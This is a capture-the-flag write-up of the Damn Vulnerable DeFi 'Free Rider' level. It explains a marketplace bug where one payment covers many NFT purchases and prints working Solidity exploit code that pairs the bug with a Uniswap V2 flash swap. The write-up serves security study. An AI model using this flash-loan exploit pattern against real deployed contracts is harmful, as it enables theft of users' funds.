### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/free-rider)

### Task

>A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

>The developers behind it have been notified the marketplace is vulnerable. All tokens can be taken. Yet they have absolutely no idea how to do it. So they’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way.

>You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

>If only you could get free ETH, at least for an instant.

### Observations

- The NFT marketplace contract has two buy functions, 1 private: `_buyOne()` and 1 external: `buyMany()`.
- The `buyMany()` function takes an array input of the token Id's to purchase and individually calls `_buyOne()` for each.
- The `buyOne()` function checks the `msg.value` is > the token `priceToPay`. However it checks the same `msg.value` for each token, not the combined cost for all tokens.
- In theory we can send the value of 1 NFT and purchase all NFT's because of this bug.
- Then send it to the `FreeRiderRecovery` contract to receive the reward payout.
- Only one problem, we dont have the ETH to pay the price of 1 NFT.
- So we can do all of this in one transaction using a UniswapV2 flash swap.
- Borrow 15WETH (which we dont yet have), unwrap it, purchase ALL nfts, send them to reward contract, swap wrap rewarded eth, repay weth loan. 
- Profit about 30ETH

### Steps
*Full exploit smart contract can be found [here](https://github.com/CharlieJRBenson/Smart-Contract-Hacking/blob/main/DamnVulnerableDefi/FreeRider/FreeRiderHack.sol)*

#### `attack()` function
- call pair's `swap()` function with data to swap only one token and the amount. (That triggers *FlashSwap* funcitonality).

```
 function attack(uint wethAmount) public {
        require(msg.sender == owner, "OnlyOwner");

        // get correct data to setup swap to be flash swap
        bytes memory data = abi.encode(pair.token0(), wethAmount);
        // call flash swap
        pair.swap(wethAmount, 0, address(this), data);
    }

```

#### `uniswapV2Call()` function is the callback function from the `swap()` call.

- Do malicious things stated above in this function then repay loan.

```
// This function is called by the pair contract, to receive tokens and then return them
    function uniswapV2Call(
        address sender,
        uint amount0,
        uint amount1,
        bytes calldata data
    ) external {
        require(msg.sender == address(pair), "not pair");
        require(sender == address(this), "not sender");

        (address tokenBorrow, uint256 wethAmount) = abi.decode(
            data,
            (address, uint256)
        );

        IWETH weth = IWETH(tokenBorrow);

        //unwrap the weth
        weth.withdraw(wethAmount);

        //set token ids
        uint8 tokenCount = 6;
        uint256[] memory tokens = new uint256[](tokenCount);
        for (uint i = 0; i < tokenCount; i++) {
            tokens[i] = i;
        }

        //buy all nft's for only 15 eth
        mktplace.buyMany{value: wethAmount}(tokens);
        nft = DamnValuableNFT(mktplace.token());

        //send all nfts to reward contract, with data of who to send eth
        for (uint i = 0; i < tokenCount; i++) {
            nft.safeTransferFrom(
                address(this),
                recoveryContract,
                tokens[i],
                abi.encode(owner)
            );
        }

        // approx 0.3% fee, +1 to round up
        uint fee = (wethAmount * 3) / 997 + 1;
        uint amountToRepay = wethAmount + fee;

        // wrap eth
        weth.deposit{value: amountToRepay}();

        // Repay
        weth.transfer(address(pair), amountToRepay);
    }

```

#### have a `receive()` function to enable reward ether.

```
    receive() external payable {}
```